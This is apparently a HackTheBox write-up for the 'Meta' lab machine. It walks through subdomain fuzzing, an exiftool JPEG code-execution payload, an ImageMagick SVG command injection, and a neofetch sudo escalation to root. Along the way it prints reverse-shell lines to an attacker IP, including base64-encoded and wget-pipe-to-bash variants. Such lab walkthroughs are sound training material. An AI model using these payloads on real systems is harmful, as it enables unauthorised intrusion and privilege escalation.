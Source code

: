 # Meta - HackTheBox



<img src="../htb_assets/images/meta/2022-06-19-06-05-47-image.png"/>



## 1. Enumeration

#### Nmap Scan

```
# Nmap 7.92 scan initiated Sun Jun 19 03:22:55 2022 as: nmap -sC -sV -oN nmap_init 10.10.11.140
Nmap scan report for 10.10.11.140
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 19 03:23:18 2022 -- 1 IP address (1 host up) scanned in 22.81 seconds

```

Add artcorp.htb to /etc/hosts and browse the domain. There is no features and also no directories even after performing directory bruteforcing.



#### Subdomain Bruteforcing

```
┌──(root💀kali)-[~/htb/machines/meta]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://artcorp.htb/ -H "Host: FUZZ.artcorp.htb" -fc 301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://artcorp.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.artcorp.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 301
________________________________________________

dev01                   [Status: 200, Size: 247, Words: 16, Lines: 10, Duration: 302ms]

```

We got a subdomain dev01 and add it to /etc/hosts.



<img src="../htb_assets/images/meta/2022-06-19-11-40-35-Screenshot%202022-06-19%2011:39:48.png"/>

Can only upload images with jpg/png extension.





<img src="../htb_assets/images/meta/2022-06-19-12-24-44-Kazam_screenshot_00002.png"/>

After uploading the image it is analysing through exiftool and giving us output. After checking for vulnerabilities with exiftool we can find an RCE.

[GitHub - OneSecCyber/JPEG_RCE: Exiftool bug which leads to RCE](https://github.com/OneSecCyber/JPEG_RCE)

After clonning this repo from github we can start exploiting it.



```
exiftool -config eval.config runme.jpg -eval='system("ls -la")'
```

By running this command, It will create malicious jpg file. It works.

Now we can do a reverse shell. 

```
┌──(root💀kali)-[~/htb/machines/meta/JPEG_RCE]
└─# echo "bash -i >& /dev/tcp/10.10.14.68/9090 0>&1" | base64                            1 ⨯
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OC85MDkwIDA+JjEK
```

Now turn on the netcat listener.

```
┌──(root💀kali)-[~/htb/machines/meta/JPEG_RCE]
└─# exiftool -config eval.config runme.jpg -eval='system("echo -n 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OC85MDkwIDA+JjEK' | base64 -d | bash")'

```

This injects malicious code which gives a reverse shell into the jpg file. By uploading it we get the reverse shell.

```
bash-5.0$ whoami
www-data
bash-5.0$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```







## 2. Foothold

First step -  stabilise shell using python3. And after looking around, can't find anything interesting.

```bash
bash-5.0$ pwd
/var/www/dev01.artcorp.htb/convert_images

bash-5.0$ grep -R convert_images / 2>/dev/null
/usr/local/bin/convert_images.sh:cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null

```

We can find the version of mogrify by,

```
bash-5.0$ /usr/local/bin/mogrify
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib

```

By checking for vulnerabilities in ImageMagick we can find a command injection vulnerability.

<img src="../htb_assets/images/meta/2022-06-19-14-53-58-image.png"/>



## 3. Lateral Movement

First i have created a shell.txt file to get reverse shell.

```
┌──(root💀kali)-[~/htb/machines/meta/JPEG_RCE]
└─# cat shell.txt
/bin/bash -i &>/dev/tcp/10.10.14.68/9000 0>&1
```

And then create an svg file to run the exploit,

```
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /tmp/pwned.svg 
<image authenticate='ff" `wget -O - 10.10.14.68:8000/shell.txt | /bin/bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:pwned.svg" height="100" width="100"/>
  </svg>
</image>

```

While this svg file executes it takes the shell.txt and executes it. To execute we copy pwned.svg to /var/www/dev01.artcorp.htb/convert_images and run it by,

```
/usr/local/bin/mogrify -format png *.*
```

Suddenly we gets a reverse shell and we should exit from it and when the cronjob runs we gets the user shell which is thomas and we got the user flag.

```
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ whoami
whoami
thomas
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ id
id
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```



## 4. Privilege Escalation

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"

```

neofetch is running with NOPASSWD option.



<img src="../htb_assets/images/meta/2022-06-20-06-34-02-image.png"/>



```
thomas@meta:~$ export XDG_CONFIG_HOME=/home/thomas/.config/

thomas@meta:~$ echo $XDG_CONFIG_HOME
/home/thomas/.config/

```





```
thomas@meta:~/.config/neofetch$ ls
config.conf  neofetch
thomas@meta:~/.config/neofetch$ echo 'exec /bin/sh' >> config.conf

thomas@meta:~/.config/neofetch$ sudo /usr/bin/neofetch \"\"
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root

```
